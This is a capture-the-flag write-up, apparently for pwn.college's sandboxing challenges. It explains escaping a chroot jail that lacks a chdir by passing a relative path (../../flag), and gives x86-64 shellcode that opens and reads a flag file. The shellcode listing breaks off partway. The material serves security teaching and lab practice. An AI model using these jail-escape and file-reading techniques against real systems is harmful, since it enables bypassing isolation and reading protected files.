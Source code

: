 # Sandboxing

{% hint style="info" %}
You can find the full code for all challenges [here](https://github.com/kunalwalavalkar/Pwn-College/tree/main/Sandboxing).
{% endhint %}



## level 1

> This challenge will chroot into a jail in /tmp/jail-XXXXXX. You will be able to easily read a fake flag file inside this jail, not the real flag file outside of it. If you want the real flag, you must escape. The only thing you can do in this challenge is read out one single file, as specified by the first argument to the program (argv\[1]).

Let's look at the source code.

```
assert(chroot(jail_path) == 0);
```

Notice that even though the jail has been set, the program did not change directory to `/` and put us in that jail.

That means we are effectively not in jail.

If we give it `/flag` as `argv[1]`, it is interpreted as `/tmp/jail/flag`, which gives us the fake flag.

In order to get the real flag, we have to pass the relative address of the real `/flag` from `/tmp/jail/`.

<pre><code><strong>$ /challenge/babyjail_level1 ../../flag 
</strong></code></pre>

The first `..` escapes from the `jail/` and second `..` escapes from the `/tmp/` directory.



## level 2

> You may open a specified file, as given by the first argument to the program (argv\[1]). You may upload custom shellcode to do whatever you want.

We can use the shellcode that we wrote for Shellcode Injection.

```armasm
.global _start
.intel_syntax noprefix

_start:
	# Open syscall
	lea rdi, [rip + flag]
	mov rsi, 0
	mov rdx, 0
	mov rax, 0x02
	syscall

	# Read syscall
	mov rdi, rax
	mov rsi, rsp
	mov rdx, 1000
	mov rax, 0x00
	syscall

	# Write syscall
	mov rdi, 1
	mov rax, 0x01
```